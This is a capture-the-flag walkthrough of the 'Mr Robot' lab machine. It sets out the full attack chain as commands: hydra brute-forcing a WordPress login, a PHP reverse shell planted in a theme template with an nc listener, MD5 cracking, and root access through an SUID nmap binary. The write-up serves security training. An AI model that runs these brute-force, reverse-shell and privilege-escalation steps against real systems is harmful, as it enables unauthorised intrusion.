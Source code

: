 # Mr Robot

*Based on the Mr. Robot show, can you root this box?*

## Walkthrough

This room is designed for beginner-intermediate players with three hidden flags hidden throughout.

We start with an `nmap` scan against the target machine:

```console
$ nmap -sC -sV -T4 -p- <ip_address> -oN full_scan
```

- `sC`: 
- `sV`:
- `-T4`: set intensity of scan to 4
- `-p-`: scan all ports (1-65535)
- `-oN`: output to specified file 

The resulting output identifies three ports/services, namely SSH on port 22, HTTP on port 80, and HTTPS on port 443.  Note that port 22 is showing as **closed**.  We also see Apache is running on the host. 

![[Pasted image 20230529120358.png]]

Targeting the web service running on ports, 80/443, we run `gobuster` and `nikto`:

```console
$ gobuster dir -u http://10.10.24.225 -w /usr/share/wordlists/diruster/directory-list-2.3-medium.txt
```

```console
$ nikto -h 10.10.24.225
```

Navigating to the website shows it is emulating a Linux terminal, allowing the user to input various commands.

![[Pasted image 20230529124022.png]]

For example, inputting `join` results in the following dialogue:

![[Pasted image 20230529124902.png]]

From `gobuster`, there are indications that this may be a WordPress website.

![[Pasted image 20230529153903.png]]

As such, we run `wpscan` against the website to enumerate WordPress elements:

```console
$ wpscan --url http://10.10.24.225
```

Notable findings include:

![[Pasted image 20230529131406.png]]

![[Pasted image 20230529131425.png]]

Navigating to `robots.txt` shows the following:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Retrieving both `fsocity.dic` and `key-1-of-3.txt` via `wget`, we obtain flag 1:

![[Pasted image 20230529132428.png]]

`fsocity.dic` is a dictionary file, containing `85160` words. Filtering out unique entries into a separate wordlist trims the total to `11451`:

```
$ cat fsocity.dic | wc -l
85160

$ sort fsocity.dic | uniq > sorted_fsocity.dic

$ cat sorted_fsocity.dic | wc -l
11451
```

Opening BurpSuite and navigating to `https://10.10.9.152/wp-login`, we see the default WordPress login page:

![[Pasted image 20230529160858.png]]

We then submit `admin:admin` to the page, capturing it on the BurpSuite proxy.

![[Pasted image 20230529160111.png]]

We then use this dictionary file in conjunction with `hydra` to bruteforce the WordPress login page (`https://10.10.9.152/wp-login`).  As we don't have a username or password, we will have to use our dictionary file to find both.  Starting with the username:

```
$ hydra -L sorted_fsocity.dic -p test 10.10.9.152 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username'
```

- `-L`: use wordlist for username
- `-p`: use one password for all attempts
- `http-post-form`: we want to brute force a HTTP form which accepts `POST` requests
- `/wp-login.php`: the endpoint of the login page
- `:log=^USER^&pwd=^PASS^&wp-submit=Log+In`: specifies where to insert the username/password
- `:Invalid username`: text presented by the page when an incorrect username is entered

![[Pasted image 20230529175711.png]]

Subsequently, we use the identified username `elliot` with the dictionary file to find the password:

```
$ hydra -l elliot -P sorted_fsocity.dic 10.10.9.152 '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username'
```

![[Pasted image 20230529190158.png]]

We now log into the WordPress site with our credentials `elliot:ER28-0652`

![[Pasted image 20230530211055.png]]

From our earlier `wpscan`, we know that the website is running the **Twenty Fifteen** theme. As such, we can open the **Theme Editor** and upload custom code in place of an existing page.

![[Pasted image 20230530211401.png]]

We can then select one of the templates and upload a PHP reverse shell (ref: [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)), ensuring that we input our IP address and port:

```php
...
$ip = '127.0.0.1';    // CHANGE THIS
$port = 1234;         // CHANGE THIS
...
```

![[Pasted image 20230530211746.png]]

We then configure a `nc` listener on our attacker machine to capture the callback connection:

```console
$ nc -nvlp <port>
```

- `n`: numeric only IPs (no DNS)
- `v`: set to verbose
- `l`: set to listen mode (for inbound connections)
- `p`: set local port number

When we navigate to a page which does not exist, the `404.php` template will be loaded, running our code.  This will create a connection from our attacker machine to the compromised website.

![[Pasted image 20230530212435.png]]

The above shows we are operating as the `daemon` user from the root of the filesystem (`/`).  As such, we need to find a way to escalate our privileges to the `root` user or to a user with higher privileges than `daemon`.  

First of all, we should stabilise our shell:

![[Pasted image 20230530214259.png]]

Firstly, we can perform manual enumeration.  We can see that there is one user within `/home`, namely `robot`.

![[Pasted image 20230530212831.png]]

Within `/home/robot`, we can find our second flag (`key-2-of-3.txt`) and a password hash file.  However, the permissions make it so we cannot read the contents of `key-2-of-3.txt` as our current user - we must be `robot` in order to read.

![[Pasted image 20230530213257.png]]

We can, however, view the contents of `password.raw-md5`:

![[Pasted image 20230530213456.png]]

With this MD5 hash, we are able to find the plaintext version via [CrackStation](https://crackstation.net/), an online hash cracking tool - `john` and `hashcat` can also be used.

![[Pasted image 20230530214441.png]]

With this cracked password, we can switch user (`su`) to `robot` and view the contents of `key-2-of-3.txt`:

![[Pasted image 20230530214544.png]]

![[Pasted image 20230530214907.png]]

Finally, we should now aim to escalate our privileges to the `root` user. One common method of privilege escalation is to use files with the set UID bit set (`SUID`).  Files with this bit set can be run as `root` temporarily to accomplish a given task. As such, it is recommended to apply these sparingly and only when absolutely necessary.

To search for these files, we can use `find`:

```
$ find / -type f -perm -u=s 2>/dev/null
```

- `/`: start the search from the root of the filesystem
- `-type f`: search for files
- `-perm -u=s`: search for files with the SUID permission bit set
- `2>/dev/null`: redirect the stderr (standard error) to `/dev/null` (suppress errors)

![[Pasted image 20230530215844.png]]

From the above, we can see `/usr/local/bin/nmap` has the SUID bit set.

![[Pasted image 20230530220053.png]]

We can check the version of this binary:

![[Pasted image 20230530220829.png]]

From [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#shell), a compiled list of UNIX binaries that can be used to bypass security controls, we see `nmap` can be launched on interactive mode (versions `2.02` to `5.21`).  We can then use the `!sh` command to spawn a shell as `root`.

![[Pasted image 20230530221045.png]]

Finally, we can view the contents of the `root` user's directory and retrieve the final flag:

![[Pasted image 20230530221405.png]]